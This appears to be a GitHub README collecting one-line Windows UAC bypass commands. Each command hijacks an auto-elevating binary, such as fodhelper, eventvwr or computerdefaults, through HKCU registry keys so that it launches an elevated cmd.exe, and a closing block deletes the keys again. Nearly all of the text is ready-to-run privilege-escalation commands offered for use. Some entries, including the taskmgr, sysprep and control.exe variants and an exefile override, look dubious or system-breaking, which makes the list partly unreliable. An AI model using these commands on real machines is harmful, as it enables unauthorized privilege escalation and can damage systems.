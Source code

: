 # uac-bypass-oneliners

Collection of one-liners to bypass User Account Control (UAC) in Windows. These techniques exploit certain behavior in Windows applications to elevate privileges.

Techniques
<br>
Using eventvwr.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && eventvwr.exe
```
<br>
Using fodhelper.exe: <br> <br>

```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

```


Using computerdefaults.exe:<br> <br>

```

reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
Using sdclt.exe:<br> <br>

```

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /ve /t REG_SZ /d "cmd.exe" /f && start sdclt.exe
```
<br>
Using slui.exe:<br> <br>

```

reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f && start slui.exe
```

<br>
Using perfmon.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && start perfmon.exe
```

Using taskmgr.exe: <br><br>


```
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && start taskmgr.exe
```

Using ComputerDefaults.exe: <br><br>
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && start computerdefaults.exe
```

Using sysprep.exe:

```

reg add HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f /ve /t REG_SZ /d "cmd.exe" && start C:\Windows\System32\sysprep\sysprep.exe
```

Using control.exe with /computername:

```

cmd /c reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d "cmd.exe" /f && control.exe /computername

```

<b>Reset</b>:

```
reg delete "HKCU\Software\Classes\mscfile\shell\open\command" /f
reg delete "HKCU\Software\Classes\ms-settings\shell\open\command" /f
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
reg delete "HKCU\Software\Classes\exefile\shell\open\command" /f
reg delete "HKCU\Software\Classes\taskmgr\shell\open\command" /f
reg delete "HKCU\Software\Classes\AppID{921C1A8B-9F15-4DA4-9235-0472C3A216E6}" /f
```
